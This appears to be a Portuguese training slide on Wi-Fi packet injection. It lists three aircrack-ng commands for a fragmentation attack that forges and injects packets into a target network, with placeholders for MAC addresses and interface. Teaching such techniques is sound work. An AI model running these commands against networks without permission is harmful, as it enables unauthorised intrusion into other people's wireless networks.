

# Injeção de pacotes
Fragmentation attack
sudo aireplay-ng --fragment -b [MAC DO ALVO] -h [SEU MAC] [NOME DA INTERFACE DE REDE]
sudo packetforge-ng 0 -a [MAC DO ALVO] -h [SEU MAC] -k 255.255.255.255 -l 255.255.255.255 -y [ARQUIVO .xor DO ULTIMO PASSO] -w [NOME DO ARQUIVO]
sudo aireplay-ng --interactive -r [NOME DO ARQUIVO DO ULTIMO PASSO] [NOME DA INTERFACE DE REDE]

0x012